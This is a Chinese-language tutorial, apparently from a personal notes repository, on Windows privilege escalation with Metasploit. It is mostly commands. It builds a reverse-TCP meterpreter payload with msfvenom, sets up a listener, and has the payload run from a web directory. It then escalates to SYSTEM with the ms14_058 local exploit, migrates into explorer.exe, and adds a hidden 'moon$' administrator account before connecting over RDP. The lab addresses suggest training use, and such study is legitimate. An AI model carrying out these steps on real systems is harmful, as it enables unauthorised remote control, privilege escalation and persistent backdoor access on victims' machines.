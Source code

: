 ## 1、简介

Metasploit是一款开源的安全漏洞检测工具，可以帮助安全和IT专业人士识别安全性问题，验证漏洞的缓解措施，并管理专家驱动的安全性进行评估，提供真正的安全风险情报。这些功能包括智能开发，代码审计，Web应用程序扫描，社会工程。团队合作，在Metasploit和综合报告提出了他们的发现。

## 2、常见的提权模块

metasploit  提权EXP 存储文件夹路径

- linux：/usr/share/metasploit-framework/modules/exploits/windows/local
- windows：windows/local

windows 常见的提权模块

- ms14_058  内核模式驱动程序中的漏洞可能允许远程执行代码
- ms16_016  WebDAV本地提权漏洞(CVE-2016-0051)
- ms16_032  MS16-032 Secondary Logon Handle 本地提权漏漏洞

## 3、metasploit  windows提权

生成攻击载荷

```bash
msfvenom  -p windows/meterpreter/reverse_tcp lhost=192.168.31.150  lport=12345 -f exe >/var/www/html/s.exe
```

进入终端

```bash
msfconsole
```

本地监听

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.31.150
set lport 12345
exploit
```

把s.exe上传到网站目录下，在cmd下运行就可以得到一个iis用户权限 meterpreter

http://www.demoasp.com/asp.aspx admin![image-20210501213656396](../acess/image-20210501213656396.png)

## 4、常用命令

提权命令： 

- sysinfo 查看系统信息 
- migrate 注入进程 
- getuid 当前用户 
- getprivs 尽可能提升权限 
- getsystem 通过各种攻击向量来提升系统用户权限 

增加管理员 

```bash
net user moon$ moon123 /add && net localgroup Administrators moon$ /add
```

## 5、基础命令

- ps 列出进程
- background 把session放置后台
- sessions 查看会话
- back 返回主界面
- shell得到终端
- search 搜索模块
- show 列模块
- info 查看模块信息 

## 6、使用模块进行提权（需session放后台）

搜索模块

```
search ms14_058
```

查看模块信息

```bash
info exploit/windows/local/ms14_058_track_popup_menu
use exploit/windows/local/ms14_058_track_popup_menu
show options
set SESSION 1
exploit 
```

 运行之后 我们成功的情况下用getuid查看当前的权限是system权限 也就是最高权限。

![image-20210501215522170](../acess/image-20210501215522170.png)

7、保持权限

ps 列出进程
migrate 注入进程

migrate 2860 注入explorer 进程

![image-20210501215904466](../acess/image-20210501215904466.png) 

 shell  增加超级管理员

```bash
net user moon$ moon123 /add
net localgroup Administrators moon$ /add
```

在kali里面链接远程终端

```bash
rdesktop 192.168.31.115 
```

![image-20210501221506476](../acess/image-20210501221506476.png)